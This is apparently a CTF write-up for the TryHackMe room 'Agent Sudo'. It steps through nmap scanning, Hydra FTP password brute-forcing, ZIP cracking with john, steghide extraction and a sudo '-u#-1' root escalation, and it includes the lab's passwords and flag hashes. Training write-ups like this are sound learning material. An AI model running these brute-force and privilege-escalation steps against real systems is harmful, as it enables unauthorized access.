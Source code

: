 # Matheus Jesus 10-05-2020

## Try Hack Me - [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

### IP 10.10.253.47

### Recon

```sh
nmap -sC -sV -oN nmap 10.10.253.47
# 21 ftp
# 22 ssh
# 80 http server
```

### Agent C

Open the $IP on browser

There is a message from Agent R
`Use your own <b>codename</b> as user-agent to access the site.`

```sh
curl "http://10.10.253.47" -H "User-Agent: C" -L
#Attention chris
#Do you still remember our deal?
#Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
```

### Brute Forcing

On FTP, try guessing chris password, since it is weak

```sh
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.253.47:21
# [21][ftp] host: 10.10.253.47   login: chris   password: crystal
```

Access ftp through chris:crystal

```sh
ftp 10.10.253.47
chris
crystal
# get files.

# All these alien like photos are fake! Agent R stored the real picture inside your directory.
# Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
```

### Stego

```sh
binwalk -e cutie.png
#ZIP folder hidden -> it has a password

# Cracking ZIP Password
/usr/sbin/zip2john 8702.zip > zip_for_john.txt
/usr/sbin/john zip_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
# alien            (8702.zip/To_agentR.txt)
```

Open ZIP

```text
Agent C,
We need to send the picture to 'QXJlYTUx' as soon as possible!
By,
Agent R
```

```sh
echo QXJlYTUx | base64 -d
#Area51
steghide extract -p Area51 -sf cute-alien.jpg -v -xf msg_cute-alien.txt 
# Hi james,
# Glad you find this message. Your login password is hackerrules!
# Don't ask me why the password look cheesy, ask agent R who set this password for you.
# Your buddy,
# chris
```

### SSH Access

`james:hackerrules!`

```sh
cat user_flag.txt
# b03d975e8c92a7c04146cfa7a5a313c7
scp james@10.10.253.47:/home/james/Alien_autospy.jpg /home/matheus/projects/tryhackme/TryHackMe/agent_sudo/Alient_autopsy.jpg
```

Search image on google -> Roswell Alien Autopsy

### Privesc

```sh
scp /opt/linPEAR/linpeas.sh james@10.10.253.47:/dev/shm

sudo -l
# (ALL, !root) /bin/bash

sudo -u#-1 /bin/bash
#ROOT

cat /root/root.txt
# b53a02f55b57d4439e3341834d70c062
```
